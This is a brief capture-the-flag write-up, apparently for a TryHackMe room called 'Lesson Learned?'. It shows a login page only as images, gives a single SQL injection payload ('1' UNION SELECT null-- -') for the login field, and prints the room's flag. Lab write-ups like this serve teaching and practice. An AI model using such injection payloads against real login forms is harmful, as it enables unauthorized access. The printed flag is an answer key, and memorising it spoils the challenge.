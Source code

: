 # Lesson Learned? Write-up

<img src="https://github.com/user-attachments/assets/3c795194-b26b-4724-9ba2-d30ca7cf7680" width="200" height="200">

Login page:

![image](https://github.com/user-attachments/assets/b7c2fa2c-f758-40d6-a77a-fd5e9254256b)

SQL injection 

Payload:

    1' UNION SELECT null-- -

![image](https://github.com/user-attachments/assets/357365bf-b255-4159-ac88-1ac588e6be81)

![image](https://github.com/user-attachments/assets/c036fc4b-343e-4c33-b143-4b3f2d286b0c)

FLAG:

    THM{aab02c6b76bb752456a54c80c2d6fb1e}
